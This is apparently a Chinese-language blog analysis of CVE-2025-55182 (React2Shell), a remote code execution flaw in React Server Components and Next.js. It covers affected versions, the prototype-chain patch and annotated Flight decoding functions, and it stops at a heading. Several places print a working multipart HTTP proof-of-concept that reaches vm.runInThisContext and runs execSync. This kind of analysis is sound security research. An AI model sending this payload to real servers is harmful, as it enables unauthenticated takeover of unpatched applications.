




# CVE-2025-55182_React2Shell漏洞分析


&lt;!--more--&gt;

## 产品简介

React Server Components（RSC，React 服务端组件） 是 React 19 推出的新渲染模型，核心思想是让部分组件在服务器端执行，仅将序列化后的结果传输给客户端。

**主要特性：**

- **服务端执行**：组件代码可直接在服务端执行业务逻辑与数据获取（如访问数据库、调用内部服务）
- **Flight 协议传输**：客户端接收经过序列化的”React 树描述”，再在浏览器中反序列化为 React 元素
- **流式渲染**：支持增量传输，先发送已计算完成的部分，后续再补充剩余内容

这套机制已成为 Next.js App Router 的默认架构。

## 漏洞描述

**React Server Components 被披露其存在远程代码执行漏洞，漏洞编号CVE-2025-55182。并且影响使用 App Router 的 Next.js 应用程序，其漏洞编号CVE-2025-66478。两个漏洞均可导致未经身份验证的远程攻击者执行任意代码等危害**

据官方描述，在 React 的服务器组件库 (React Server Components，即 RSC)中，由于 React 在解码发送至服务器函数端点的请求负载时存在安全缺陷，导致未经身份验证的远程攻击者可以通过向任何服务器函数端点发送特制的恶意 HTTP 请求，当该请求被 React 反序列化处理时，即可在服务器上实现远程代码执行，从而完全控制服务器。

注：该漏洞影响所有使用受影响库并启用了 React 服务器组件或服务器函数端点的应用。

目前该漏洞的漏洞细节、POC已公开。

**漏洞编号**

```
CVE编号:
React Serve CVE-2025-55182
Next.js     CVE-2025-66478
```

**影响版本**

```
React:      19.0, [19.1.0,19.1.2), 19.2.0
React DOM:  19.0, [19.1.0,19.1.2), 19.2.0
react-server-dom-parcel (npm): 19.0, [19.1.0,19.1.2), 19.2.0
react-server-dom-turbopack (npm): 19.0, [19.1.0,19.1.2), 19.2.0  
react-server-dom-webpack (npm): 19.0, [19.1.0,19.1.2), 19.2.0

Next.js: 
14.3.0-canary.77 &lt;= Next.js &lt; 15.0.5  
15.1.0 &lt;= Next.js &lt; 15.1.9
15.2.0 &lt;= Next.js &lt; 15.2.6
15.3.0 &lt;= Next.js &lt; 15.3.6
15.4.0 &lt;= Next.js &lt; 15.4.8
15.5.0 &lt;= Next.js &lt; 15.5.7
16.0.0 &lt;= Next.js &lt; 16.0.7
```


## 漏洞复现

### 环境搭建
```sh
git clone https://github.com/ejpir/CVE-2025-55182-poc
cd CVE-2025-55182-poc

# Install dependencies
npm install
# Start vulnerable server (port 3002)
npm start
```


### POC
```http
POST /formaction HTTP/1.1
Host: localhost:3002
Content-Type: multipart/form-data; boundary=----Boundary
Content-Length: 297

------Boundary
Content-Disposition: form-data; name=&#34;$ACTION_REF_0&#34;

------Boundary
Content-Disposition: form-data; name=&#34;$ACTION_0:0&#34;

{&#34;id&#34;:&#34;vm#runInThisContext&#34;,&#34;bound&#34;:[&#34;global.process.mainModule.require(\&#34;child_process\&#34;).execSync(\&#34;id\&#34;).toString()&#34;]}
------Boundary--
```



## 补丁分析



可以发现

```js
return moduleExports[metadata[2]];
```

修改为了

```js
if (hasOwnProperty.call(moduleExports, metadata[NAME])) {
    return moduleExports[metadata[NAME]];
  }
  return (undefined: any);
}
```

代码修复里面添加了hasOwnProperty 检查，只允许访问对象自身的属性

而在漏洞版本，攻击者可以控制 `metadata[2]`，可读取任意属性（包括原型链上的），如：

- `__proto__.toString`
- `constructor.prototype`
- 甚至获取危险方法（如 vm.runInThisContext）

CVE-2025-55182 漏洞的产生原因是React Server Components (RSC) 的 Flight 协议反序列化逻辑中存在不安全的处理。

漏洞的核心问题在于：路径解析逻辑未通过 `hasOwnProperty` 限制可访问的属性范围，导致攻击者可以沿原型链访问任意属性，包括 `__proto__`、`constructor` 等敏感属性。

## 背景知识

### RSC

React Server Components（RSC，React 服务端组件）是 React 19 推出的核心特性—— 核心是将组件逻辑拆分到服务端执行，仅向客户端传递 “渲染指令” 而非完整 JS 代码，既解决了客户端渲染（CSR）首屏慢、JS 体积大的问题，又弥补了传统 SSR 全量水合、服务端仅输出静态 HTML 的缺陷。

RSC 的核心思想是：**将一部分 React 组件的渲染工作完全放在服务器上完成，并将这些服务器组件的渲染结果以一种特殊的数据格式流式传输到客户端，而不需要将这些组件的 JavaScript 代码发送到客户端。**

为了实现这一目标，React 团队设计了一个全新的网络协议，称之为 **‘Flight’ 协议**，它是一种高度优化的、增量的、可流式传输的自定义序列化格式，专为传输 React 元素树和其所需的数据而设计。它允许服务器发送“指令”给客户端，告知客户端如何构建或更新 UI，而不是发送预先渲染好的 HTML 片段或者完整的 JavaScript 组件代码。


RSC的一些术语包括：

| 术语                 | 运行位置 | 核心能力                                                     |
| -------------------- | -------- | ------------------------------------------------------------ |
| 服务端组件（SC）     | 服务端   | 1. 支持 async/await 直接请求数据；&lt;br /&gt;2. 直接访问服务端资源；&lt;br /&gt;3. 代码不暴露给客户端 |
| 客户端组件（CC）     | 客户端   | 1. 支持所有 React 钩子；&lt;br /&gt;2. 访问浏览器 API；&lt;br /&gt;3. 实现交互逻辑（点击、输入） |
| Server Actions       | 服务端   | 标记`&#39;use server&#39;`的函数，处理表单提交、数据写入等服务端操作 |
| React Server Payload | 传输格式 | SC 渲染后的序列化数据（JSON / 二进制），&lt;br /&gt;客户端仅解析渲染，不执行代码 |


其中要提一下的是React Server Actions，它是 React 18 引入并完全集成在 Next.js 13&#43; App Router 中的一项功能。它允许开发者定义**服务端函数**，并在客户端组件中直接调用，而无需显式创建 API 路由。

当 Server Action 被调用时：

```text
┌───────────────────────────────────────────────────────────────────────────────┐
│                        SERVER ACTION 流程                                      │
├───────────────────────────────────────────────────────────────────────────────┤
│                                                                               │
│   客户端 (Client)                  网络 (Network)              服务端 (Server)   │
│   ──────────────                  ───────────                ────────────     │
│   1. 用户提交表单                                                               │
│          ↓                                                                    │
│   2. React 使用 Flight            POST /                                       │
│      协议序列化参数                 multipart/form-data      3. Next.js 接收请求  │
│          └────────────────────►  Next-Action: &lt;id&gt;               ↓            │
│                                                           4. Flight反序列化参数 │
│                                                                  ↓            │
│                                                           5.执行Server Action  │
│   7. React根据响应包            Flight序列化的响应                   ↓            │
│      更新客户端 UI       ◄─────────────────────────────     6. Flight序列化返回值 │
└───────────────────────────────────────────────────────────────────────────────┘
```


当调用 Server Action 时，Next.js 会发送一个带有`Next-Action`特殊标头的 POST 请求：

```text
POST /page HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...
Next-Action: 1234567890abcdef        ← Server Action 标识符
Next-Router-State-Tree: ...          ← 客户端路由状态
```

`Next-Action` 标头告知服务器执行哪个已注册的函数。请求体包含序列化后的参数。


### Flight协议

截至目前，ReactFlight 协议的文档并不完善，对它的理解主要基于逆向工程和社区示例。Flight 协议属于 React 内部核心机制，无独立官方文档，所有细节均在 **React 源码** 和 **官方 RSC 示例仓库** 中。

在典型的 Server Action 请求中，Next.js / React 发送 `multipart/form-data` 请求，表单字段结构如下：

- `name=&#34;0&#34;`: 主 payload（如参数列表）
- `name=&#34;1&#34;`: 第 1 个模型块（model chunk）
- `name=&#34;2&#34;`: 第 2 个模型块
- `...` : 更多块

Flight 协议使用 `$` 前缀加数字表示对特定 chunk 的引用，冒号分隔的路径用于访问嵌套属性：

- `&#34;$1&#34;`: 引用 chunk1 本身
- `&#34;$2:fruitName&#34;`: 引用 chunk2 解析后对象的 `fruitName` 属性
- `&#34;$3:user:email&#34;`: 引用 chunk3 中的 `.user.email`

假设客户端发送如下请求体：
```text
------WebKitFormBoundaryABC123
Content-Disposition: form-data; name=&#34;0&#34;

[&#34;$1:profile:name&#34;]
------WebKitFormBoundaryABC123
Content-Disposition: form-data; name=&#34;1&#34;

{&#34;profile&#34;:{&#34;name&#34;:&#34;alice&#34;,&#34;age&#34;:18}}
------WebKitFormBoundaryABC123--
```
可以看作：
```js
chunks = {  
  &#34;0&#34;: &#39;[&#34;$1:profile:name&#34;]&#39;,  
  &#34;1&#34;: &#39;{&#34;profile&#34;:{&#34;name&#34;:&#34;alice&#34;,&#34;age&#34;:18}}&#39;  
}
```

**解析过程：**

```
&#34;$1:profile:name&#34;  
  → 查找 chunk1 并解析：{&#34;profile&#34;:{&#34;name&#34;:&#34;alice&#34;,&#34;age&#34;:18}}  
  → 访问路径 .profile.name  
  → 返回 &#34;alice&#34;
```

具体的代码逻辑会在后面进行解释。

### JS原型污染

JavaScript 使用原型实现继承。每个对象都引用一个原型，原型本身也是一个对象，并且原型本身也有一个原型，依此类推，直到我们得到最基本原型，它被称为Object.prototype，其自身原型是null。

在原型链污染攻击中，攻击者会更改内置原型（例如`Object.prototype`），导致所有派生对象都具有额外的属性，包括攻击者无法直接访问的对象。

如果攻击者控制并修改了一个对象的原型，那将可以影响所有和这个对象来自同一个类、父类的对象，这种攻击方式就是原型链污染

```js
let foo = {bar:1};       // foo是一个简单的JavaScript对象，foo.bar此时为1

foo.__proto__.bar = 2;  // 修改foo的原型（即object）
console.log(foo.bar);   // 查找顺序原因，foo.bar仍然是1

let zoo = {};           // 此时用objecr创建一个空的zoo对象
console.log(zoo.bar);   // 查看zoo.bar，结果为2

原因：
	修改 foo 原型foo.__proto__.bar = 2，而 foo 是一个object类的实例，所以实际上是修改了object这个类，给这个类增加了一个属性bar，值为2
	后来用object类创建了一个zoo对象，let zoo = {}，zoo对象自然也有一个bar属性了
```

更多东西可以查阅下 Node.js原型链污染的相关文章。

在 JavaScript 中，使用方括号 `obj[key]` 访问属性时，会**遍历整个原型链**。这意味着：

```js
const fs = require(&#39;fs&#39;); 
fs[&#39;readFileSync&#39;] // ✅ 正常：访问自己的属性 
fs[&#39;constructor&#39;] // ⚠️ 危险：访问到 Object.prototype.constructor 
fs[&#39;__proto__&#39;] // ⚠️ 危险：访问到 Object.prototype
```

攻击者可以利用这个特性，通过 `#constructor`、`#__proto__` 等特殊属性名，访问到模块导出对象的原型链属性。


## 漏洞分析1-基于简易环境

这个漏洞分析是基于Github漏洞分析简易环境：https://github.com/ejpir/CVE-2025-55182-poc

这里关注RSC漏洞的核心问题，忽略了Flight协议部分。

**环境搭建**

```sh
git clone https://github.com/ejpir/CVE-2025-55182-poc
cd CVE-2025-55182-poc
npm install  # Install dependencies
npm start    # Start vulnerable server (port 3002)
```

### 攻击流程

我们看这个POC：
```http
POST /formaction HTTP/1.1
Content-Type: multipart/form-data; boundary=----Boundary

------Boundary
Content-Disposition: form-data; name=&#34;$ACTION_REF_0&#34;

------Boundary
Content-Disposition: form-data; name=&#34;$ACTION_0:0&#34;

{&#34;id&#34;:&#34;vm#runInThisContext&#34;,&#34;bound&#34;:[&#34;process.mainModule.require(&#39;child_process&#39;).execSync(&#39;id&#39;).toString()&#34;]}
------Boundary--
```


完整的攻击流程如下：
```
1. 攻击者发送恶意 HTTP POST 请求
   ↓
2. 请求包含 $ACTION_REF_0 和 $ACTION_0:0 字段
   ↓
3. decodeAction() 解析请求
   ↓
4. resolveServerReference() 解析模块ID（如 &#34;vm#runInThisContext&#34;）
   ↓
5. requireModule() 加载模块并访问导出
   ↓
6. moduleExports[metadata[2]] 访问原型链 ⚠️
   ↓
7. 返回危险函数（如 vm.runInThisContext）
   ↓
8. 函数被调用，执行攻击者代码（如 execSync(&#39;id&#39;) ）  💣 💥
```



### server.js
看漏洞复现环境中的server.js，看看都做了什么。

添加相应注释后：
```js
/**
* 创建Node.js HTTP服务，处理RSC 的Server Actions表单提交请求
* 核心功能：接收POST请求的表单数据，解析后调用decodeAction解析服务端Action，执行函数并返回结果；
* @param {Object} req - HTTP请求对象，包含请求方法、URL、头信息、表单数据等
* @param {Object} res - HTTP响应对象，用于返回处理结果 
*/
const server = http.createServer(async (req, res) =&gt; {
  // 忽略GET请求，不重要…… 处理POST请求
  if (req.method === &#39;POST&#39; &amp;&amp; req.url === &#39;/formaction&#39;) {
    const chunks = [];
    // 监听请求数据接收事件：逐块收集二进制数据
    req.on(&#39;data&#39;, chunk =&gt; chunks.push(chunk));
    // 监听请求数据接收完成事件：解析表单数据并处理Action
    req.on(&#39;end&#39;, async () =&gt; {
      try {
        // 1. 还原完整的表单数据，拼接所有数据块为完整的Buffer
        const buffer = Buffer.concat(chunks);
        const contentType = req.headers[&#39;content-type&#39;] || &#39;&#39;;
        // 2. 从Content-Type中提取boundary分隔符
        const boundaryMatch = contentType.match(/boundary=(.&#43;)/);
        if (!boundaryMatch) throw new Error(&#39;No boundary&#39;);
        // 3. 解析multipart/form-data格式的表单数据为FormData对象
        const formData = parseMultipart(buffer, boundaryMatch[1]);
        console.log(&#39;FormData:&#39;);
        formData.forEach((v, k) =&gt; console.log(` ${k}: ${v}`));
        
        // 4. 核心逻辑：decodeAction 解析表单数据中的Server Action，加载对应的服务端函数
        // 核心漏洞点，调用链：decodeAction → loadServerReference → requireModule
        // requireModule: moduleExports[metadata[2]] 缺少 hasOwnProperty 检测，导致原型链污染
        const actionFn = await decodeAction(formData, serverManifest);
        console.log(&#39;Action result:&#39;, actionFn, typeof actionFn);
        
        // 5. 执行Action函数并返回结果
        if (typeof actionFn === &#39;function&#39;) {
          // 若解析出合法函数，执行函数并返回成功结果
          const result = actionFn();
          res.writeHead(200, { &#39;Content-Type&#39;: &#39;application/json&#39; });
          res.end(JSON.stringify({ success: true, result: String(result) }));
        } else {
          // 若未解析出函数，返回Action的字符串形式
          res.writeHead(200, { &#39;Content-Type&#39;: &#39;application/json&#39; });
          res.end(JSON.stringify({ success: true, action: String(actionFn) }));
        }
      } catch (e) {
        // ……
});
```

我们提交的POST请求包为

```http
POST /formaction HTTP/1.1
Content-Type: multipart/form-data; boundary=----Boundary

------Boundary
Content-Disposition: form-data; name=&#34;$ACTION_REF_0&#34;

------Boundary
Content-Disposition: form-data; name=&#34;$ACTION_0:0&#34;

{&#34;id&#34;:&#34;vm#runInThisContext&#34;,&#34;bound&#34;:[&#34;process.mainModule.require(&#39;child_process&#39;).execSync(&#39;id&#39;).toString()&#34;]}
------Boundary--
```

Node.js HTTP服务处理POST请求，解析 Multipart 表单，使用 `parseMultipart(buffer, boundary)` 得到

```js
formData = new Map([
  [&#39;$ACTION_REF_0&#39;, &#39;&#39;],
  [&#39;$ACTION_0:0&#39;, &#39;{&#34;id&#34;:&#34;vm#runInThisContext&#34;,&#34;bound&#34;:[&#34;...&#34;]}&#39;]
]);
```

### decodeAction 解析请求

RSC 会把前端提交的 FormData 里面的字段 `&#34;$$ACTION_ID&#34;`映射到服务器上的某个真实函数。

例如：`&lt;form action={saveFeedback}&gt;`，客户端 POST 的内容会变成：`action=FeedbackActions.saveFeedback`

 decodeAction函数就是一个动态路由功能，负责找到对应的服务端函数，提供后续调用。

```js
const actionFn = await decodeAction(formData, serverManifest);
```

server.js 是直接调用了 decodeAction， 用于将客户端 Action 描述转换为可执行函数。

1. 从 formData 找到 action 字段
2. 从 serverManifest 找到模块名
3. 动态 require() 模块
4. 返回模块里的函数引用

也就是说，这个函数能根据用户输入字符串，动态加载 服务器上的任意模块、任意函数。

在React中，该函数位于`packages/react-server/src/ReactFlightActionServer.js`

这里实验环境下，添加注释后的代码如下：

```js
/** 
* Server Actions 的核心解码函数：解析请求体中的服务端 Action 信息，加载对应函数并绑定表单数据
* @param {Iterable} body - RSC 请求体（FormData格式），包含 Action 标识和表单数据
* @param {Object} serverManifest - 服务端清单，存储 Action ID 与服务端函数的映射关系
* @returns {Promise&lt;Function&gt;|null} - 绑定了表单数据的Server Action 函数（Promise 形式），无 Action 则返回 null
*/
exports.decodeAction = function (body, serverManifest) {
  var formData = new FormData(),
    action = null;
  body.forEach(function (value, key) {
    key.startsWith(&#34;$ACTION_&#34;)
      // 分支1：处理带绑定元数据的Action（$ACTION_REF_前缀，含绑定参数）
      ? key.startsWith(&#34;$ACTION_REF_&#34;)
        ? (
          // 1. 重构Action标识格式，拼接为标准Action标识
          (value = &#34;$ACTION_&#34; &#43; key.slice(12) &#43; &#34;:&#34;),
          // 2. 解码绑定的Action元数据，从请求体中提取并解析绑定参数
          (value = decodeBoundActionMetaData(body, serverManifest, value)
          ),
          // 3. 根据ID和绑定参数匹配服务端函数，从服务端清单加载对应的Action引用（核心）
          (action = loadServerReference(
            serverManifest,   // 服务端Action映射清单
            value.id,         // Action唯一标识
            value.bound       // Action绑定的参数
          )))
        // 分支2：处理普通Action
        : key.startsWith(&#34;$ACTION_ID_&#34;) &amp;&amp;
          // 1. 截取Action ID
          ((value = key.slice(11)),
          // 2. 加载服务端Action引用（无绑定参数）
          (action = loadServerReference(serverManifest, value, null)))
        // 分支3：普通表单数据，添加到FormData中供Action使用
      : formData.append(key, value);
  });
  // 最终返回逻辑：无Action则返回null，有则绑定FormData后返回
  return null === action
    ? null
    : action.then(function (fn) {
        return fn.bind(null, formData);
      });
};
```

作用：解析 FormData，识别 `$ACTION_REF_ `或 `$ACTION_ID_`字段，调用 loadServerReference 加载相应`Action ID`模块或者函数，返回一个绑定 FormData 的服务器函数

```
$ACTION_REF_0=
$ACTION_0:0={&#34;id&#34;:&#34;vm#runInThisContext&#34;,&#34;bound&#34;:[&#34;process.mainModule.require(&#39;child_process&#39;).execSync(&#39;id&#39;).toString()&#34;]}
```

读取 $ACTION_0:0 的值，拆分 id 字段：
```js
moduleName = &#34;vm&#34;
exportName = &#34;runInThisContext&#34;
```
从代码中可以看到有两类Action字段： `$ACTION_REF_*` 和 `$ACTION_ID_*` ，我们做下解释：

React Server Actions 通过 `$ACTION_REF_*` 和 `$ACTION_ID_*` 两类字段实现服务端函数调用。

- **`$ACTION_REF_`** 开头：绑定 action 客户端用于引用已有的服务器 Action 实例。

在实际逻辑中`$ACTION_REF_` 允许客户端伪造 action 实例 &#43; 伪造 bound 参数 → 导致“创建一个新的 action 实例”

例如：构造了一堆 multipart 字段
```js
$ACTION_REF_999=1
$ACTION_999:0=hello
$ACTION_999:1=world
```

decodeAction进行解析：
```js
value = &#34;$ACTION_&#34; &#43; key.slice(12) &#43; &#34;:&#34;;    // 通过这里就会变成$ACTION_999:
// decodeAction 不仅“引用现有 action”，而是直接让客户端创建了 action 实例命名空间。
value = decodeBoundActionMetaData(body, serverManifest, value);
// 然后就会去扫描$ACTION_999:*所有的
// 最后返回的就是
{ id: &#34;999&#34;, bound: [&#34;hello&#34;, &#34;world&#34;]}
```


- **`$ACTION_ID_`** 最常见的用于模块调用

如用户提交了修改密码请求

```xml
&lt;form action={updatePassword}&gt;
  &lt;input type=&#34;password&#34; name=&#34;newPassword&#34; /&gt;
  &lt;button type=&#34;submit&#34;&gt;Update Password&lt;/button&gt;
&lt;/form&gt;
```

生成了FormData就会变成：`$ACTION_ID_UserActions.updatePassword = &#34;&#34;`

服务器就会去找**updatePassword** 函数
```js
loadServerReference(serverManifest, &#34;UserActions&#34;, &#34;updatePassword&#34;);
```

还有就是分模块的调用，如`$ACTION_ID_OrderActions.createOrder = &#34;&#34;`，解析成就会

```js
loadServerReference(serverManifest, &#34;OrderActions&#34;, &#34;createOrder&#34;);
```

通过 `$ACTION_ID_*` 字段，React 确保调用 `OrderActions` 模块中的 `createOrder` 方法。


### loadServerReference 加载
中间函数：loadServerReference()，它是「服务端引用标识（ Action ID）」到「实际可执行的服务端函数」的桥梁 —— 客户端发起 Server Actions 请求时，仅传递 Action ID 等轻量标识，而该函数负责根据标识找到并加载对应的服务端函数。

来看代码，添加注释后如下；
```js
/**
* 加载服务端引用（Server Reference）对应的函数：根据 Action ID 解析并加载服务端注册的函数，支持绑定预设参数（bound），实现 Server Actions 函数实例化
*
* @param {Object} bundlerConfig - 构建工具配置，包含服务端模块/Action 的映射关系
* @param {string} id - 服务端引用的唯一标识，如 Action ID，可由客户端请求传入
* @param {Array|null} bound - 可选的绑定参数数组，用于给服务端函数预设入参（如组件上下文、元数据）
* @returns {Promise&lt;Function&gt;} - 解析后的服务端函数（Promise 形式），若有bound则返回绑定参数后的函数
*/
function loadServerReference(bundlerConfig, id, bound) {
  // 1. 根据ID和构建配置解析出完整的服务端引用信息（如模块路径、函数名）
  // 【安全风险】：若id可控且未校验，可能解析到恶意模块路径,如 vm#runInThisContext
  var serverReference = resolveServerReference(bundlerConfig, id);
  // 2. 预加载服务端引用对应的模块
  bundlerConfig = preloadModule(serverReference);
  // 分支1：存在绑定参数（bound）- 需先解析bound和预加载模块，再绑定参数到函数
  return bound
    ? Promise.all([bound, bundlerConfig]).then(function (_ref) {
        _ref = _ref[0];
        // 加载服务端引用对应的实际函数（核心：从模块中require出目标函数）
        var fn = requireModule(serverReference);
        // 将bound参数绑定到函数（bind），第一个参数为this（设为null），后续拼接bound数组 
        // 【核心】：最终返回的函数执行时会自动带上bound预设参数
        return fn.bind.apply(fn, [null].concat(_ref));
      })
    // 分支2：无绑定参数，但预加载模块存在 - 等待模块预加载完成后加载函数
    : bundlerConfig
      ? Promise.resolve(bundlerConfig).then(function () {
          return requireModule(serverReference);
        })
      // 分支3：无绑定参数且无预加载模块 - 直接加载服务端函数
      : Promise.resolve(requireModule(serverReference));
}
```

关键点：
- 调用 resolveServerReference 解析模块ID
- 调用 requireModule 获取函数
- 使用 `fn.bind.apply` 绑定 bound 数组作为参数

业务价值：支撑 RSC Server Actions 的「参数绑定」和「模块懒加载」能力，让服务端函数可以携带上下文（如组件元数据、用户会话）执行，同时保证模块加载的异步性。

**核心风险点**：
- `id` 参数用户可控且未做白名单校验，可能被篡改指向恶意模块路径（`vm#runInThisContext`），通过 `requireModule` 加载并执行恶意代码；
- `bound` 参数若未过滤，可能传入恶意参数数组，通过 `fn.bind` 篡改函数执行上下文或入参，触发非预期行为。
### resolveServerReference 
解析函数：resolveServerReference，是 **Server Reference 解析的核心入口**，也是 Server Actions / 服务端组件模块查找的基础

它是「抽象的服务端引用 ID」到「具体的模块元数据」的转换器 ——RSC 中客户端仅传递精简的 ID（如 `vm#runInThisContext`），该函数负责从服务端预编译的 `Server Manifest`（`bundlerConfig`）中，找到 ID 对应的模块信息，为后续加载模块、执行函数提供依据。

注释后代码如下：
```js
/**
* 解析 Server Reference ID（服务端引用标识）：根据服务端清单（bundlerConfig）和 Action ID，解析出对应的服务端模块元数据，并返回标准化的服务端引用数组
*
* @param {Object} bundlerConfig - 服务端清单 Manifest，key为Module/Action ID，value为模块元数据（包含id、chunks、name、async等字段）
* @param {string} id - 待解析的服务端引用唯一标识（如 Action ID/模块ID，可能带#分割的函数名）
* @returns {Array} - 标准化的服务端引用数组，格式：[模块ID, 关联的chunk列表, 函数名, 异步标识(可选)]
* @throws {Error} - 若未找到匹配的模块，抛出错误
*/
function resolveServerReference(bundlerConfig, id) {
  var name = &#34;&#34;,
    // 第一步：从服务端清单中直接匹配ID对应的模块元数据
    resolvedModuleData = bundlerConfig[id];
  // 分支1：ID直接匹配到模块元数据，提取模块元数据中的函数/Action名称
  if (resolvedModuleData) name = resolvedModuleData.name;
  // 分支2：ID未直接匹配，尝试解析带#分割的复合ID（如 vm#runInThisContext）
  else {
    var idx = id.lastIndexOf(&#34;#&#34;);  // 找到ID中分割模块ID和函数的位置（最后一个#位置）
    // 若存在#分隔符，拆分模块ID和函数名
    -1 !== idx &amp;&amp;
      // 提取#后的部分作为函数/Action名称
      ((name = id.slice(idx &#43; 1)),
      // 提取#前的部分作为模块ID，重新从清单中匹配模块元数据
      (resolvedModuleData = bundlerConfig[id.slice(0, idx)]));
    // 若拆分后仍未匹配到模块元数据，抛出致命错误
    if (!resolvedModuleData)
      throw Error(
        ……
      );
  }
  // 第二步：返回标准化的服务端引用数组（区分异步/同步模块） 
  // 异步模块：追加第4个元素（1）标识异步；同步模块：仅返回前3个元素
  return resolvedModuleData.async
    ? [resolvedModuleData.id, resolvedModuleData.chunks, name, 1]
    : [resolvedModuleData.id, resolvedModuleData.chunks, name];
}
```

关键点：
- 使用 `#` 分割 ID，例如 `vm#runInThisContext` → `模块=vm, 名称=runInThisContext`
- 返回数组 `[moduleId, chunks, exportName]` → 这就是 metadata

这里的返回基本就是：

```
[vm,[&#34;process.mainModule.require(&#39;child_process&#39;).execSync(&#39;id&#39;).toString()&#34;],runInThisContext]
```


### requireModule
